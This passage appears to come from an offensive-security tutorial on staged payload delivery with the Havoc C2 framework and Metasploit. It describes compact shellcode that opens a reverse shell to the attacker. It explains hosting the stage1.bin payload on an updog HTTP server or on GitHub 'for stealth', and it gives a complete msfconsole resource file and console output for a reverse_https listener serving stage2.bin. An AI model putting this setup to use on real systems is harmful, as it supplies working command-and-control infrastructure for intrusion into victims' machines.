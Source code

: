 This shellcode initiates a reverse shell connection back to the attacker's machine, facilitating the seamless delivery of the Stage 2 payload (stage2.bin) that was previously prepared within Havoc. Notably, the shellcode is exceptionally compact, occupying only about 684 bytes, making it a highly efficient vector for establishing the initial breach.

## Serving the stages

For the deployment process, both the initial and subsequent payloads are stored within a single directory on the attacking machine. This setup is crucial for organizing and efficiently managing the payloads for deployment. To distribute the first stage payload, `stage1.bin`, we employ a development HTTP server, such as 'updog', initiated from one terminal window to facilitate easy access to the payload. Concurrently, in another terminal window, we establish a Meterpreter listener, which is responsible for handling `stage2.bin`. This listener will execute the shellcode within the Havoc C2 framework, ensuring a seamless transition to the control phase.

Alternatively, leveraging GitHub to host the payload offers a versatile and innovative approach to stage distribution, providing a blend of accessibility and operational stealth.
![figure 9: Files in the folder for serving the payloads](009-ls-webroot.png)  
figure 9: Files in the folder for serving the payloads

![figure 10: Development server updog](010-updog-server.png)  
figure 10: Development server updog  

To streamline the launch process of the Meterpreter listener within msfconsole, a resource file, `https-listener.rc`, can be created. This file contains pre-defined commands that automatically configure the listener upon msfconsole startup, eliminating the need for manual input. The following snippet outlines the commands to be included in the `.rc` file:

```text
use multi/handler
set payload windows/x64/custom/reverse_https
set exitfunc thread
set lhost 192.168.8.205
set lport 8443
set shellcode_file stage2.bin
set exitonsession false
```

Executing msfconsole with this resource file loads the specified configurations, readying the Meterpreter listener for operation:

```bash
 msfconsole -q -r https-listener.rc
[*] Processing https-listener.rc for ERB directives.
resource (https-listener.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (https-listener.rc)> set payload windows/x64/custom/reverse_https
payload => windows/x64/custom/reverse_https
resource (https-listener.rc)> set exitfunc thread
exitfunc => thread
resource (https-listener.rc)> set lhost 192.168.8.205
lhost => 192.168.8.205
resource (https-listener.rc)> set lport 8443
lport => 8443
resource (https-listener.rc)> set shellcode_file stage2.bin
shellcode_file => stage2.bin
resource (https-listener.rc)> set exitonsession false
exitonsession => false
msf6 exploit(multi/handler) > run
```
